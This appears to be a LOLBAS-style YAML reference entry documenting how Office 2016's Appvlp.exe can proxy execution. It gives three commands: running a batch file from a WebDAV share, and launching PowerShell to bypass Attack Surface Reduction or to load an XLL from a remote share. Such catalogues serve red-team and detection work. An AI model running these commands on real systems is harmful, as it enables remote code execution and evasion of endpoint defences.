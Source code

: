 ```yaml
---
name: Appvlp.exe
description: Application Virtualization Utility Included with Microsoft Office 2016
functions:
  execute:
    - description: Executes calc.bat through AppVLP.exe
      code: AppVLP.exe \\webdav\calc.bat
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows 10 w/Office 2016
      privileges: User
      usecase: Execution of BAT file hosted on Webdav server.
    - description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
      code: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows 10 w/Office 2016
      privileges: User
      usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    - description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
      code: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows 10 w/Office 2016
      privileges: User
      usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
resources:
    - resource: https://github.com/MoooKitty/Code-Execution
    - resource: https://twitter.com/moo_hax/status/892388990686347264
    - resource: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
    - resource: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
fullpath:
    - path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
    - path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
detection:
  - IOC: 
acknowledgement:
  - Person: fab
    Handle: '@0rbz_'
  - Person: Will
    Handle: '@moo_hax'
  - Person: Matt Wilson
    Handle: '@enigma0x3'
---
```

